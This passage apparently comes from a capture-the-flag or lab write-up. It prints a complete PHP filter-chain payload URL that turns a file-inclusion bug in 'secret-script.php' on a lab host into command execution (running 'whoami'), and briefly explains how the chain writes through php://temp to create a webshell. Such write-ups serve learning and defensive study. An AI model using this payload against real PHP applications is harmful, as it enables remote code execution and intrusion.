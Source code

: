 ```console
http://10.10.131.228/secret-script.php?0=whoami&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

What does all of this mean ? Briefly explained, the command we want to execute and the garbage text (with the different encodings, called the **filter chain**) is used to add some text to `php://temp` which allows to temporarily store data without explicitly creating a physical file on the filesystem. This is the way we can create a **webshell**.

And thankfully, the output is exactly as we expected !
